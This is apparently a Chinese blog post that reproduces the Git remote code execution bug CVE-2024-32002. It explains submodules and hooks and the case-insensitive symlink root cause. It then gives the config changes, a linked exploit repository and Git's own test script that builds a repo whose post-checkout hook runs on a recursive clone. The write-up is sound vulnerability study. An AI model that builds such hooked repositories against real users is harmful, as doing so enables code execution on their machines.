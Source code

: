 ```yaml
---
layout: post
tags: [RealWorld]
title: "CVE-2024-32002复现(git 远程代码执行)"
author: wsxk
comments: true
date: 2024-8-19
---
```



- [1. 漏洞介绍](#1-漏洞介绍)
- [2 git 基础](#2-git-基础)
	- [2.1 git clone](#21-git-clone)
	- [2.2 git submodule](#22-git-submodule)
	- [2.3 hooks](#23-hooks)
- [3. 漏洞成因分析](#3-漏洞成因分析)
- [4. 漏洞复现](#4-漏洞复现)
- [5. 补丁](#5-补丁)
- [references](#references)

## 1. 漏洞介绍<br>
**漏洞标题**：Git 远程代码执行漏洞（CVE-2024-32002）
**影响版本**：<br>
- version 2.45.*< 2.45.1
- version 2.44.*< 2.44.1
- version 2.43.*< 2.43.4
- version 2.42.*< 2.42.2
- version 2.41.*< 2.41.1
- version 2.40.*< 2.40.2
- version 2.39.*< 2.39.4

## 2 git 基础<br>
### 2.1 git clone<br>
首先需要知道，在使用`git clone`命令时，实际上做的命令如下:<br>
```
1、 mkdir -p <path> && cd <path> # 创建一个目录并进入
2、 git init # 初始化git仓库
3、 git remote add origin <url> # 添加远程仓库
4、 git fetch origin # 下载对象引用
5、 git checkout -b <branch> --track origin/<branch> #创建一个本地分支，并跟踪远程分支
```

### 2.2 git submodule<br>
`git submodule`用于在一个 Git 仓库中嵌入另一个 Git 仓库。子模块通常用于管理大型项目中的独立依赖项或组件，这些组件可以是独立开发的代码库。<br>
要将一个外部仓库作为子仓库添加到现有的 Git 中，需要如下命令:<br>
```
git submodule add <repository_url> <path>
<repository_url>: 外部仓库的路径，例子：https://github.com/example/repo.git
<path> ： 外部仓库存放在本仓库的目录名称
```
注意：当添加子模块后，该子模块的内容会被添加到本仓库中，`.git`虽然也会出现，但它是一个 **`符号链接，指向本仓库.git/modules/<path>`**<br>

**当我们使用git clone克隆含义子仓库的仓库时，不会自动的获取子仓库的内容**，要想获取子仓库内容，需要做如下命令:<br>
```
git submodule init # 初始化子模块配置
git submodule update # 从远程仓库获取子模块的内容
```

### 2.3 hooks<br>
`hooks`目录存在与`.git`目录下，里面存放很多shell脚本，**这些脚本会在git执行到某个阶段时被执行**<br>
举个例子，`hooks`目录中有个脚本名字叫做`commit-msg`，这个脚本就是在我们执行`git commit -m xxx`后，该消息即将被提交前，`commit-msg`会被执行。<br>
作为测试，具体的执行方法如下:<br>
```
1、将hooks中的 commit-msg.sample 中添加内容 echo "testtest"
2、将hooks目录中的 commit-msg.sample 更改为 commit-msg
3、执行git add --all && git commit -m "xxxx"
4、观察结果
```
你能观察到如下结果:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240826215850.png)


## 3. 漏洞成因分析<br>
漏洞本质上是由于：<br>
git在进行clone的时候，**由于Windows或者MacOS操作系统大小写不敏感的特点**，主仓库中**用于存放子模块的目录在下载时被另一个指向.git目录的同名符号链接覆盖，导致往子模块写入数据的时候，全部都写入了.git目录中**，最后配合hook脚本完成隐蔽的攻击。<br>


## 4. 漏洞复现<br>
漏洞复现时，需要先指向如下命令:<br>
```
# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 
```
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)这个网址提供了现成的仓库<br>
可以看一下官方验证poc<br>
```
test_expect_success CASE_INSENSITIVE_FS,SYMLINKS \
	'submodule paths must not follow symlinks' '
	# This is only needed because we want to run this in a self-contained
	# test without having to spin up an HTTP server; However, it would not
	# be needed in a real-world scenario where the submodule is simply
	# hosted on a public site.
	test_config_global protocol.file.allow always &&
	# Make sure that Git tries to use symlinks on Windows
	test_config_global core.symlinks true &&
	tell_tale_path="$PWD/tell.tale" &&
	git init hook &&
	(
		cd hook &&
		mkdir -p y/hooks &&
		write_script y/hooks/post-checkout <<-EOF &&
		echo HOOK-RUN >&2
		echo hook-run >"$tell_tale_path"
		EOF
		git add y/hooks/post-checkout &&
		test_tick &&
		git commit -m post-checkout
	) &&
	hook_repo_path="$(pwd)/hook" &&
	git init captain &&
	(
		cd captain &&
		git submodule add --name x/y "$hook_repo_path" A/modules/x &&
		test_tick &&
		git commit -m add-submodule &&
		printf .git >dotgit.txt &&
		git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
		printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
		git update-index --index-info <index.info &&
		test_tick &&
		git commit -m add-symlink
	) &&
	test_path_is_missing "$tell_tale_path" &&
	test_must_fail git clone --recursive captain hooked 2>err &&
	grep "directory not empty" err &&
	test_path_is_missing "$tell_tale_path"
'
```
官方验证poc主要做如下步骤:<br>
```
1. 创建hook仓库，创建y/hooks/post-checkout并添加到仓库中
2. 创建captain仓库，通过git submodule 将hook仓库添加到 captain仓库中的A/modules/x目录中
   captain仓库的.git文件里记录hook仓库.git的位置为.git/modules/x/y
3. 在captain仓库以底层的方式创建一个a文件(符号链接)，指向.git 并提交
4. 在git clone --recursive captain hooked后，会先拷贝captain的内容，在windows/macos中，A目录会被a替换，而a是指向.git的符号链接
   接下来在拷贝hook仓库的A/modules/x/y/hooks/post-checkout的内容时，会被拷贝到.git/modules/x/y/hooks/post-checkout
   而在git checkout执行后，执行post-checkout命令，完成利用
```

## 5. 补丁<br>
[https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)是官方补丁

## references<br>
[https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002](https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002)<br>
[先知社区cve-2024-32002复现](https://xz.aliyun.com/t/14597?time__1311=GqAhDKYKAKKBMBbGkDRiUDktGOjleox)<br>
[启明星辰](https://www.venustech.com.cn/new_type/aqtg/20240521/27479.html)<br>
[奇安信](https://www.secrss.com/articles/66299)<br>
[https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/](https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/)<br>
